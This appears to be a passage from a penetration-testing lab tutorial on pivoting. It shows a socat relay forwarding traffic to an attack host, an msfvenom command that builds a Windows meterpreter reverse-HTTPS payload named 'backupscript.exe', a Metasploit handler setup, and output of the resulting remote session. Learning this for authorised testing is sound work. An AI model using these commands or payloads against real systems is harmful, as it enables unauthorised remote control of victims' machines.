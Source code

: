 - [Socat](https://linux.die.net/man/1/socat) is a bidirectional relay tool that can create pipe sockets between `2` independent network channels without needing to use SSH tunneling.
#### Starting Socat Listener
```shell
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```
Socat will listen on localhost on port `8080` and forward all the traffic to port `80` on our attack host (10.10.14.18).
#### Creating the Windows Payload
```shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```
#### MSF Console
```shell
sudo msfconsole
```

```msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT 80
run
```
#### Establishing the Meterpreter Session
```shell-session
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (10.10.14.18:80 -> 127.0.0.1 ) at 2022-03-07 11:08:10 -0500

meterpreter > getuid
```